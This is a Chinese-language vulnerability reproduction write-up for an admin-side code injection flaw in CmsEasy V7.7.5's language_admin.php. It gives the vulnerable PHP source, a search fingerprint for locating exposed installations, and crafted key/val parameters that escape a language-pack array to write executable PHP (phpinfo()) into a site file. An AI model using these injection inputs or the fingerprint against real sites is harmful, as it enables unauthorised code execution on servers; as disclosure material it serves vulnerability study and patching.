


# CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>


## 漏洞复现

主页面


存在漏洞的文件为 `lib/admin/language_admin.php`


```php
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面



其中参数有三个，分别为 `key , cnnote, val`


传入参数后,查看 `lang/cn/system_custom.php` 文件中

```php
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```php
test1  test2  test3);
```

写入后文件内容

```php
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```php
test4  ,test5, 	,phpinfo());/*
```


写入后文件内容


访问文件 `/lang/cn/system_custom.php`




若有收获，就点个赞吧